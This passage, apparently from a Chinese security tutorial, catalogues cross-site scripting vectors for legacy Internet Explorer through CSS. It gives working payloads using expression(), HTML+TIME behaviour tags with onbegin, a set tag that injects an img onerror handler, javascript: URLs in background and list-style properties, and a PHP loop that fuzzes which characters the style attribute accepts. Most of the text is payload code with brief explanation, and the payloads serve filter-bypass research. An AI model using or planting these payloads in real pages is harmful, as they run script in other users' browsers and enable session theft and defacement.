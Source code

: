 看到有\xx和\xxxxxx的Unicode编码，这些都是CSS编码，与JavaScript编码非常相似。

下面两个URL中列举了一些浏览器对各种奇怪的css语法支持情况：

[http://imfo.ru/csstest/css_hacks/import.php](http://imfo.ru/csstest/css_hacks/import.php)[http://centricle.com/ref/css/filters/](http://centricle.com/ref/css/filters/)

在IE中，css的解析非常的宽泛：

```
<style>
/*\*/*{x:expression(write(1))/*
</style>
<style>
_{content:"\"/*" x}
*{0:expression(write(2))
</style>
<a style=<!---/**/&#61expression(write(3))/*-- > X</a > 

```

从IE5.5到IE8中，除了expression可以用来执行JavaScript之外，也可以通过HTML+TIME的形式。

这种方式唯一的缺点就是也需要一个事件来执行JavaScript，即onbegin或者onend：

```
1<l style="behavior:url(#default#time2)"onbegin="alert(1)">

```

还有一种方式利用set标签：

```
1<set/xmlns="urn:schemas-microsoft-com:time" style="beh&#x41vior:url(#default#time2)" attributename="innerhtml" to="&lt;img/src=&quot;x&quot;onerror=alert(1)&gt;">

```

测试一下style属性中在哪些浏览器中，可以插入哪些字符：

```
<?php
for($i = 0; $i<=65535; $i++) {
    $chr = html_entity_decode('&#'.$i.';', ENT_QUOTES, 'UTF-8');
    echo '<a style="color='.$chr.'red">'.dechex($i).'['.$chr.']</a>';
} ?>

```

从测试结果可以得出，下面的代码可以在IE中执行：

```
<div style=xss&#x2000;:&#x3000;expression(write(1))>

```

在一些老版本的IE中，如IE6和IE7，还可以通过背景相关属性调用javascript的URL来执行javascript代码：

```
<b style="background:url(javascript:alert('background'))">xxx</b> 
<b style="background-image:url(javascript:alert('background'))"> xxx</b>
<b style="list-style:url(javascript:alert('background'))">xxx</b> 
<b style="list-style-image:url(javascript:alert('background'))"> xxx</b>

```
